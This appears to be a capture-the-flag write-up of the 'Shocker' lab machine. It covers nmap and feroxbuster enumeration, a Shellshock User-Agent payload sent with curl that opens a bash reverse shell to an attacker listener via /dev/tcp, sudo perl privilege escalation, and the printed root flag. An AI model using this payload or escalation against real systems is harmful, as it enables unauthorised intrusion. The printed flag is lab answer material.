

## Enumeration

We start by running nmap to see what ports are on on the target machine 
```bash
sudo nmap -sV 10.10.10.68
```
`-sV` enables version detection.
```bash
Starting Nmap 7.95 ( https://nmap.org ) at 2025-04-15 21:59 CEST
Nmap scan report for shocker.htb (10.10.10.56)
Host is up (0.10s latency).
Not shown: 998 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.09 seconds
```

The word list is a bit tricky here I ended up using this
https://github.com/daviddias/node-dirbuster/blob/master/lists/directory-list-2.3-big.txt
```bash
feroxbuster -u http://10.10.10.68/ -w ./directory-list-2.3-big.txt -r -C 404 -x php
```
`-r` (recursive scanning)
`-C 404` (filter out response codes)
`-x php` (extension)

I did not see anything with the above so I used this:
```bash
feroxbuster -u http://10.10.10.56 -f -n -C 404 --dont-filter
```
`-f` (scan for files only)
`--dont-filter` (disable auto-filtering)

Output:
```
403      GET       11l       32w      294c http://10.10.10.56/cgi-bin/
200      GET      234l      773w    66161c http://10.10.10.56/bug.jpg
200      GET        9l       13w      137c http://10.10.10.56/
403      GET       11l       32w      292c http://10.10.10.56/icons/
403      GET       11l       32w      300c http://10.10.10.56/server-status/

```

## Observations

Lets continue fuzzing the `/cgi-bin/` path
```
feroxbuster -u http://10.10.10.56/cgi-bin/ -w ./directory-list-2.3-big.txt -r -C 404 -x php,sh,cgi
```
Output:
```
200      GET        7l       17w      118c http://shocker.htb/cgi-bin/user.sh

```

If we go to that page:
```
http://10.10.10.56/cgi-bin/user.sh
```


## Exploit & Privileges Escalation

Start a nc listener:
```bash
nc -lvnp 4444
```

From there all we need is a shell 
```bash
curl -H 'User-Agent: () { :; }; /bin/bash -c "bash -i >& /dev/tcp/10.10.14.11/4444 0>&1"' http://10.10.10.56/cgi-bin/user.sh
```

Now we have a shell!
```bash
shelly@Shocker:/home$ cd shelly
cd shelly
shelly@Shocker:/home/shelly$ cat user.txt
cat user.txt

shelly@Shocker:/usr/lib/cgi-bin$ sudo -l
sudo -l
Matching Defaults entries for shelly on Shocker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl
    
shelly@Shocker:/usr/lib/cgi-bin$ sudo /usr/bin/perl -e 'exec "/bin/bash";'
sudo /usr/bin/perl -e 'exec "/bin/bash";'
whoami
root

cd /root
ls
root.txt
cat root.txt
e435766c3a474bc01d29d3a5ac17c3c4
```